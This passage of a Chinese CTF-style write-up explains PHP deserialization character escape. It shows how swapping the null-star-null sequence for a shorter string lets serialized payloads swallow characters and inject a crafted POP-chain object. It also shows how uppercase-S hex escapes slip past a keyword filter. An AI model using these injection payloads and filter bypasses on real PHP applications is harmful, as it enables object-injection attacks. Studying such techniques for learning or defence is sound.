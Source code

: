 `chr(0).'*'.chr(0)` 也就是 `N*N` （N表示null）占三个字符，而 `\0*\0` 占五个字符，当我们的 `\0*\0` 被替换为 `N*N` 之后就少了两个字符，于是我们就能在反序列化中吞掉后面两个字符；（参考本站：[安恒4月赛反序列化字符逃逸](http://wh1sper.com/fakephp反序列化字符逃逸/)）

如果我们直接把pop链构造的结果传给password的话，序列化的结果是这样：

```
s:8:"username";s:5:"input";s:8:"password";s:103:"O:8:"Hacker_A":1:{s:5:"c2e38";O:8:"Hacker_B":1:{s:5:"c2e38";O:8:"Hacker_C":1:{s:4:"name";s:4:"test";}}}"
```

我们这103个字符被因为s:103被当作字符串处理，于是我们利用吞字符，把 `";s:8:"password";s:103:"` （24个字符，12组 `\0*\0` ）这一段吞掉，然后把下面的传给password：

```
";s:8:"password";O:8:"Hacker_A":1:{s:5:"c2e38";O:8:"Hacker_B":1:{s:5:"c2e38";O:8:"Hacker_C":1:{s:4:"name";s:4:"test";}}}
```

那么我们就成功的就行了逃逸；

 

不过，在反序列化之前，info.php里面第5行有： `check(reduce($_SESSION['info']));`

check函数会检查我们的字符里面是否有 `c2e38` ，所以用S:5:"\63\32\65\33\38"来绕过，和用S+\00来绕过chr(0)是一样的，因为S大写，后面字符串里就可以解析hex了

 